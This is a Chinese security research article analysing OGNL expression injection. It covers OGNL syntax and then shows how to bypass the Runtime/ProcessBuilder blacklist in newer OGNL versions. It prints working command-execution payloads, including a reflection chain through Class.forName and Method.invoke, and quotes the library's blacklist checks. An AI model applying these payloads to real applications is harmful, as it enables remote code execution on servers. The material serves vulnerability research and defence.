# OGNL表达式注入高版本绕过分析-先知社区

> **来源**: https://xz.aliyun.com/news/18195  
> **文章ID**: 18195

---

## OGNL基础

OGNL（Object-Graph Navigation Language），中文一般叫 对象图导航语言。

简单理解，它是一个表达式语言，能用很短的表达式去访问、修改对象的属性，甚至还能调用方法、创建新对象。通过表达式，可以简化我们对类的操作。

### 三要素

OGNL具有三要素：表达式（expression）、根对象（root）和上下文对象（context）。

* 表达式（expression）：表达式是整个OGNL的核心，通过表达式来告诉OGNL需要执行什么操作
* 根对象（root）：root可以理解为OGNL的操作对象，OGNL可以对root进行取值或写值等操作，表达式规定了“做什么”，而根对象则规定了“对谁操作”。实际上根对象所在的环境就是 OGNL 的上下文对象环境
* 上下文对象（context）：context可以理解为对象运行的上下文环境，context以MAP的结构、利用键值对关系来描述对象中的属性以及值

### 实例

下面来写一个简单的实例。

先修改 pom.xml。

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>OGNL_test</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <!-- https://mvnrepository.com/artifact/ognl/ognl -->
        <dependency>
            <groupId>ognl</groupId>
            <artifactId>ognl</artifactId>
            <version>3.1.19</version>
        </dependency>
    </dependencies>

</project>
```

创建三个类，分别为 Student，School，SchoolMaster。

```
package com.mashiro;

public class Student {
    String name;
    School school;

    public void setName(String s) {
        name = s;
    }

    public String getName() {
        return name;
    }

    public void setSchool(School s) {
        school = s;
    }

    public School getSchool() {
        return school;
    }
}
```

```
package com.mashiro;

public class School {
    String name;
    SchoolMaster schoolMaster;

    public void setName(String s) {
        name = s;
    }

    public String getName() {
        return name;
    }

    public void setSchoolMaster(SchoolMaster s) {
        schoolMaster = s;
    }

    public SchoolMaster getSchoolMaster() {
        return schoolMaster;
    }
}
```

```
package com.mashiro;


public class SchoolMaster {
    String name;

    public SchoolMaster(String s) {
        name = s;
    }

    public void setName(String s) {
        this.name = s;
    }

    public String getName() {
        return name;
    }
}
```

然后再写一个 test 样例。

```
package com.mashiro;

import ognl.Ognl;
import ognl.OgnlContext;
import ognl.OgnlException;

public class test {
    public static void main(String[] args) throws OgnlException {
        // 创建 Student 对象
        School school = new School();
        school.setName("hnust");
        school.setSchoolMaster(new SchoolMaster("lisi"));
        Student student1 = new Student();
        student1.setName("Mash1r0");
        student1.setSchool(school);
        Student student2 = new Student();
        student2.setName("Mashiro");
        student2.setSchool(school);

        // 创建上下文环境
        OgnlContext ognlContext = new OgnlContext();

        // 设置根对象 root
        ognlContext.setRoot(student1);

        // 通过 Map 的 put 方法添加对象
        ognlContext.put("student2", student2);

        // 获取 ognl 的 root 相关值
        Object name1 = Ognl.getValue("name", ognlContext, ognlContext.getRoot());
        Object school1 = Ognl.getValue("school.name", ognlContext, ognlContext.getRoot());
        Object schoolMaster1 = Ognl.getValue("school.schoolMaster.name", ognlContext, ognlContext.getRoot());
        System.out.println("root-" + name1 + ":school-" + school1 + ",schoolMaster-" + schoolMaster1);

        // 获取 ognl 的非 root 相关值
        Object name2 = Ognl.getValue("#student2.name", ognlContext, ognlContext.getRoot());
        Object school2 = Ognl.getValue("#student2.school.name", ognlContext, ognlContext.getRoot());
        Object schoolMaster2 = Ognl.getValue("#student2.school.schoolMaster.name", ognlContext, ognlContext.getRoot());
        System.out.println("no_root-" + name2 + ":school-" + school2 + ",schoolMaster-" + schoolMaster2);

        // 也可以指定对象
        Object name3 = Ognl.getValue("name", ognlContext, ognlContext.get("student2"));
        System.out.println(name3);
    }
}
```

OGNL 表达式有两种上下文作用域：

* #：表示访问上下文中的变量
* @：访问类或静态方法

Ognl.getValue 中的第一个参数就是三要素之一的 expression。

首先他支持我们链式调用，也就是通过 . 获取对象的属性或方法。

我们可以打个断点调试一下。



student1 本身的结构是这样的，想要取比较深处的值没那么方便，而 expression 支持我们直接用 . 链式去取。

然后在表达式里面还可以调用方法，例如我们修改一下 Student 的 getName 方法。



```
Object name3 = Ognl.getValue("getName", ognlContext, ognlContext.get("student2"));
System.out.println(name3);
```

然后就可以得到如下：



前面的用 # 前缀，代表从上下文（Context Map）里取值。而不是从 Root 对象取，然后我们在上下文中添加了 student2 ，所以可以直接用 # 去获取对应的值。

还有一个重要的语法就是 @ 。

来写一段代码：

```
Object result3 = Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc')", ognlContext, ognlContext.getRoot());
System.out.println("Executed: calc");
```



前面说了 . 可以用于调用对象的属性和方法，它还可以用于让上一个节点的结果作为下一个节点的上下文， 如(#a=new java.lang.String("calc")).(@java.lang.Runtime@getRuntime().exec(#a))，也可以换成逗号(#a=new java.lang.String("calc")),(@java.lang.Runtime@getRuntime().exec(#a))。



此时这里的 value 实际上是 Process process = Runtime.getRuntime().exec("whoami"); 所以这里只是执行了命令，并没有回显。

### 语法

1. "." 操作符

* 可以调用对象的属性和方法，且上一个节点的结果作为下一个节点的上下文。

1. "#" 操作符

* 用于调用非root对象
* 创建Map：#{"name": "Mash1r0"}
* 定义变量：#a=new java.lang.String[]{"calc"}

1. "@" 操作符

* 用于调用静态对象、静态方法、静态变量

1. "$" 操作符

* 引用 OGNL 上下文对象（Context Map）中的值，一般用于配置文件：<param name="name">${name}</param>

1. "%" 操作符

* 计算其中的OGNL表达式的值：%{hacker.name}，%{1+1}。有点类似于 SSTI 中的模版渲染

1. List

* 直接使用{"green", "red", "blue"}创建

1. 对象创建

* new java.lang.String[]{"calc"}

### 投影与选择

OGNL 支持类似数据库当中的选择与投影功能。

* 投影：选出集合当中的相同属性组合成一个新的集合。语法为 collection.{XXX}，XXX 就是集合中每个元素的公共属性。
* 选择：选择就是选择出集合当中符合条件的元素组合成新的集合。语法为 collection.{Y XXX}，其中 Y 是一个选择操作符，XXX 是选择用的逻辑表达式。选择操作符有 3 种：

* ? ：选择满足条件的所有元素
* ^：选择满足条件的第一个元素
* $：选择满足条件的最后一个元素

这里直接拿文章里面的 demo 了。

```
User p1 = new User("name1", 11);
User p2 = new User("name2", 22);
User p3 = new User("name3", 33);
User p4 = new User("name4", 44);
Map<String, Object> context = new HashMap<String, Object>();
ArrayList<User> list = new ArrayList<User>();
list.add(p1);
list.add(p2);
list.add(p3);
list.add(p4);
context.put("list", list);
System.out.println(Ognl.getValue("#list.{age}", context, list));	
// [11, 22, 33, 44]
System.out.println(Ognl.getValue("#list.{age + '-' + name}", context, list));	
// [11-name1, 22-name2, 33-name3, 44-name4]
System.out.println(Ognl.getValue("#list.{? #this.age > 22}", context, list));	
// [User(name=name3, age=33, address=null), User(name=name4, age=44, address=null)]
System.out.println(Ognl.getValue("#list.{^ #this.age > 22}", context, list));	
// [User(name=name3, age=33, address=null)]
System.out.println(Ognl.getValue("#list.{$ #this.age > 22}", context, list));	
// [User(name=name4, age=44, address=null)]
```

## OGNL高版本的限制

我们之前用的是 ognl 3.1.19



OGNL在>=3.1.25、>=3.2.12的版本中增加了黑名单，我们更新一下 pom.xml 然后再试试之前直接去调用命令执行方法。



我们去 OgnlRuntime.invokeMethod 看看。



可以发现这里有很多黑名单。

```
(AO_SETACCESSIBLE_REF != null && AO_SETACCESSIBLE_REF.equals(method)) ||
(AO_SETACCESSIBLE_ARR_REF != null && AO_SETACCESSIBLE_ARR_REF.equals(method)) ||
(SYS_EXIT_REF != null && SYS_EXIT_REF.equals(method)) ||
(SYS_CONSOLE_REF != null && SYS_CONSOLE_REF.equals(method)) ||
AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) ||
ClassResolver.class.isAssignableFrom(methodDeclaringClass) ||
MethodAccessor.class.isAssignableFrom(methodDeclaringClass) ||
MemberAccess.class.isAssignableFrom(methodDeclaringClass) ||
OgnlContext.class.isAssignableFrom(methodDeclaringClass) ||
Runtime.class.isAssignableFrom(methodDeclaringClass) ||
ClassLoader.class.isAssignableFrom(methodDeclaringClass) ||
ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) ||
AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass)
```

1. .equals(method) —— 精准匹配方法对象（完全相同的 Method 实例）
2. .isAssignableFrom(methodDeclaringClass) 判断类继承/实现关系

分为了两种判断，在第一类判断里面主要目的如下：

* setAccessible(boolean) 禁止开启私有访问
* setAccessible([...]) 禁止批量开启私有访问
* System.exit(int) 禁止终止进程
* System.console() 禁止获取 console 引用

第二类是判断调用的类是否为黑名单中的本身、子类或者实现类。

### 反射绕过

这里虽然禁用了 Runtime.class ，但是我们可以利用反射调用 Runtime 执行系统命令。

先丢 payload：

```
String expression = "(
" +
        "  #clazz = #this.getClass().forName("java.lang.Runtime")
" +
        ").(
" +
        "  #methods = #clazz.getDeclaredMethods()
" +
        ").(
" +
        "  #runtime = #methods[7].invoke(null, null)
" +
        ").(
" +
        "  #exec = #methods[14]
" +
        ").(
" +
        "  #exec.invoke(#runtime, "calc")
" +
        ")
";
```

我们可以先来调一下直接调用是如何被 waf 的。

```
String expression1 = "@java.lang.Runtime@getRuntime().exec('calc')";
```



首先 \_useStricterInvocation 是要开启的，然后我们可以看到 method 后面有个 toString()，我们可以点击查看该类的名称。



或者直接点 method.clazz 后面的导航也行。





然后我们接着往下走，这里会有一个调试的问题。



这里步入后，到了第一个判断就命中了，可以看到下面打的断点调试器告诉我们是走不到的。



下一步就到 throw 了，按道理来说我们应该是到 Runtime.class.isAssignableFrom(methodDeclaringClass 这一步才命中，这里需要我们对方法进行断点。

给 equals 和 isAssignableFrom 方法内打上断点。





然后再次进行调试，就可以发现能够走到 equals 四次，isAssignableFrom 六次，刚好是到达 Runtime.class.isAssignableFrom(methodDeclaringClass 的判断。





然后就命中，throw 报错了。

接着我们来看看绕过的 payload。



这里有五个方法会被检测。



可以看到第一轮这里传进来的类是 Object 的 getClass()，然后最后是能够成功执行的。



接着就是第二轮。



是 Class.forName() 的静态调用，也就是因为这里没有做限制，我们可以加载到恶意类。

后续就有点类似了，一次 Class.getDeclaredMethods()，两次 Method.invoke()，然后就进行命令执行了。

